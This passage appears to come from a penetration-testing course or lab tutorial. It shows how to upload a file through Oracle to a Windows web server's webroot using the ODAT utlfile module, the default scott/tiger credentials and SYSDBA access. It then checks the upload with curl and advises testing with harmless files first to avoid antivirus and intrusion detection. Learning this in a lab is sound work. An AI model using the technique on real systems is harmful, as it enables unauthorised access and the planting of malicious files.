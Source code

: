 ```
First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

#### Oracle RDBMS - File Upload

  Oracle TNS

```shell-session
echo "Oracle File Upload Test" > testing.txt

./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt


```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.
```shell-session
curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```
